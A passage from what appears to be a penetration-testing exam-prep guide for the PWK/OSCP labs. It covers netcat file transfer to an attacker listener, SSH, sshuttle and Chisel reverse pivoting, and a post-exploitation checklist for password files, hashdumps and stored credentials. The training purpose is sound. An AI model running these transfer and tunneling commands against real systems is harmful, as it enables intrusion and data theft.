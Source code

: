 `nc -lvnp 443 < $FILENAME
# On target
nc $LHOST 443 > $FILENAME`

## Pivoting

SSH access always gives you the easiest pivot. You can set up a SOCKS proxy by adding the `-D` flag as follows.

```
ssh $USERNAME@$RHOST -D 1080
```

This opens a SOCKS proxy on your machine’s port 1080, which is proxied to the target system. You can configure to use it with `proxychains` quite easily.

Another nice addition to the proxying portfolio is `sshuttle`, it does some magic to automatically proxy traffic from your host to a certain subnet through the target system.

```
sshuttle -r $USERNAME@$RHOST 10.1.1.0/24
```

If you only have Windows systems to deal with, `Chisel` comes highly recommended. It’s a bit more complicated to set up a full SOCKS proxy, as it requires two sessions on the target. The required commands are as below.

> On Kali:./chisel server -p 8000 --reverseOn target:.\chisel_windows_386.exe client $LHOST:8000 R:8001:127.0.0.1:9001Now we are listening on localhost:8001 on kali to forward that traffic to target:9001.Then, open the Socks server: On target:.\chisel_windows_386.exe server -p 9001 --socks5On Kali:./chisel client localhost:8001 socks

## Post-exploitation Enumeration

In general, the things you are looking for will stand out quite a bit in the PWK labs. It is nonetheless critical to spend enough time in post-enumeration, as otherwise you will surely miss the entry points of several machines. Very briefly speaking, the things you are looking for are as follow.

- `Proof.txt` files (duh)
- Accounts on the machine (`/etc/passwd` or `hashdump`)
- Credentials in files of several formats (plaintext, KeePass-files, RDP files, etc.)
- Credentials in services (FTP servers, databases)
- Interesting files in home directories
- Activity between multiple machines (ARP tables or `netstat`)

> If you encounter a machine in the PWK labs that references specific names or any type of user action, make good note of that and come back to it later. You likely found a hint for a client-side exploit or relation between two machines.

## Buffer Overflows

Buffer overflows are a skill you definitely have to practice well before your exam. I have included my (*very* basic) command reference below, but I would recommend looking at resources that explain it better. A good overview of the process is provided [here](https://guif.re/bo). The PWK course materials also do a great job explaining the process, and the “Extra Miles” exercises are definitely worth doing.
